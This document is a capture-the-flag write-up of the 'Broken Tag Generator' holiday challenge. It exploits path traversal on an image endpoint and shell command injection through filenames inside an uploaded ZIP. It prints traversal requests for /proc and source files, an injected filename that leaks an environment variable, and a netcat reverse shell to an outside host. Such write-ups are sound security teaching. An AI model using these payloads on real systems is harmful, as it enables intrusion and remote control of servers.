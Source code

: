 # Broken Tag Generator

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [tag-generator website](https://tag-generator.kringlecastle.com/)<br/>
**Terminal hint**: [Redis Bug Hunt](../hints/h8.md)


## Objective

!!! question "Request"
    Help Noel Boetie fix the [Tag Generator](https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

??? quote "Noel Boetie"
    Welcome to the Wrapping Room, Santa!<br/>
    The tag generator is acting up.<br/>
    I feel like the issue has something to do with weird files being uploaded.<br/>
    Can you help me figure out what's wrong?<br/>


## Hints

??? hint "Patience and Timing"
    Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!

??? hint "Source Code Analysis"
    I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?

??? hint "Endpoint Exploration"
    Is there an endpoint that will print arbitrary files?

??? hint "Content-Type Gotcha"
    If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!

??? hint "Error Page Message Disclosure"
    Can you figure out the path to the script? It's probably on error pages!

??? hint "Download File Mechanism"
    Once you know the path to the file, we need a way to download it!

??? hint "Source Code Retrieval"
    We might be able to find the problem if we can get source code!

??? hint "Redirect to Download"
    If you find a way to execute code blindly, I bet you can redirect to a file then download that file!


## Solution

!!! note "Quick 'n dirty or reverse shell?"
    You can either solve this with minimal effort or you can go for a reverse shell. We'll explore both options! :smile:


### Short solution

Start by analyzing the [`app.js`](https://tag-generator.kringlecastle.com/js/app.js) JavaScript code. After a successful file upload the uploaded image will be accessible via the `/image?id=` endpoint with `id` being a randomly generated value that identifies the image (line 7). 

```javascript linenums="1" hl_lines="7"
success: function (data) {
  $('.uploadForm')[0].reset();
  $('[for=file-1] span').text('Select file(s)');
  setTimeout(() => {
    data.forEach(id => {
      var img = $('<img id="dynamic">');
      img.attr('src', `/image?id=${id}`);
      img.on('load', () => {
        const imgElement = img[0];
        var imgInstance = new fabric.Image(imgElement, {
          left: (canvas.width - imgElement.width) / 2,
          top: (canvas.height - imgElement.height) / 2,
          angle: 0,
          opacity: 1
        });
        canvas.add(imgInstance);
      });
    });
  }, 500);
},
```

The `/image?id=` endpoint appears to be vulnerable to a [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal), allowing us to read files on the remote system. Since the objective is to read the value of an environment variable and pretty much everything on Linux is considered a file, a request to `/image?id=../../../proc/1/environ` will return the information we need in the HTTP response, including `GREETZ`. :stuck_out_tongue_winking_eye:

![Short solution](../img/objectives/o8/solution_short.png)


### Longer solution

An HTTP request using an invalid `id` will result in a 404 error response with a message stating `Error in /app/lib/app.rb: Route not found`. This tells us the location of the backend Ruby on Rails source code file.

![HTTP request error](../img/objectives/o8/raw_response.png)

!!! info "Tricking web browsers using `X-Content-Type-Options: nosniff`"
    The `X-Content-Type-Options: nosniff` header in the HTTP response message prevents web browsers from doing MIME-type sniffing. The web browser will take whatever is set as the `Content-Type` and assume that information is correct. In this case, the HTTP response tells the browser the data is an `image/jpg` file which the browser fails to render. As a result, using an invalid `id` in a web browser will display an image rendering error instead.

    ```
    The image “https://tag-generator.kringlecastle.com/image?id=somethingsomething%20test” cannot be displayed because it contains errors.
    ```

We can leverage the same [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal) as before by issuing a request to `https://tag-generator.kringlecastle.com/image?id=../../../app/lib/app.rb` to download [`app.rb`](../artifacts/objectives/o8/app.rb). Because the backend code does not filter the `filename` variable prior to using it in the `system` call, we can leverage this flaw to execute our own code (line 7).

```ruby linenums="1" hl_lines="7"
def handle_image(filename)
  out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
  out_path = "#{ FINAL_FOLDER }/#{ out_filename }"

  # Resize and compress in the background
  Thread.new do
    if !system("convert -resize 800x600\\> -quality 75 '#{ filename }' '#{ out_path }'")
      LOGGER.error("Something went wrong with file conversion: #{ filename }")
    else
      LOGGER.debug("File successfully converted: #{ filename }")
    end
  end
```

Structuring the filename of the uploaded file as `myfile';command_to_run;ls '.png` will translate the `convert` command into `convert -resize 800x600\\> -quality 75 'myfile';`, `command_to_run;`, and `ls '.png' '#{ out_path }'`. Nudging our own command neatly in the middle. 

The `process_file()` function tells us the app allows uploading files with an extension matching either `.jpg`, `.jpeg`, `.png`, or `.zip`. To prevent our uploaded file from being renamed at the server side we can leverage the `handle_zip()` function as it leaves filenames as-is after unpacking the uploaded archive (line 7). Luckily for us, Jack also commented out the filename validation code (line 2). Thanks, Jack! :thumbsup:

```ruby linenums="1" hl_lines="2 7"
# I wonder what this will do? --Jack
# if entry.name !~ /^[a-zA-Z0-9._-]+$/
#   raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
# end

# We want to extract into TMP_FOLDER
out_file = "#{ TMP_FOLDER }/#{ entry.name }"

# Extract to file or directory based on name in the archive
entry.extract(out_file) {
  # If the file exists, simply overwrite
  true
}

# Process it
out_files << process_file(out_file)
```

To retrieve the value of the `GREETZ` environment variable, create an image file named `myfile';echo $GREETZ>the_GREETZ_tag.txt;ls '.png`, add it to a [ZIP file](../tools/objectives/o8/GREETZ_payload.zip), and upload it using the tag generator application. The application will unpack the archive, execute our command, and save the output to `/tmp/the_GREETZ_tag.txt` which we can then download using a request to `https://tag-generator.kringlecastle.com/image?id=../../../tmp/the_GREETZ_tag.txt`. :boom:

![Longer solution](../img/objectives/o8/solution_long.png)

!!! done "Answer"
    JackFrostWasHere

!!! note "Reverse shell<span id="reverse-shell"></span>"
    A request to `https://tag-generator.kringlecastle.com/image?id=../../../bin/nc` confirms that netcat is available so we can leverage the code execution vulnerability to establish a reverse shell with full interactive access. The command we need to run on the host is `nc 1.2.3.4 55100 -e /usr/bin/sh`, but forward slashes are not an option as they're not allowed in a file name.
    
    We can work around this limitation by using `` `which sh` `` to ask the system what the full path for the `sh` binary is, instead of specifying it as part of the filename. The image filename now becomes ``myfile';nc 1.2.3.4 55100 -e `which sh`;ls '.png``. Set up a local listener using `nc -nlvp 55100`, upload the [zipped image file](../tools/objectives/o8/reverse_shell_payload.zip), and wait for the reverse shell connection to be established.

    ![Reverse shell](../img/objectives/o8/reverse_shell.png)
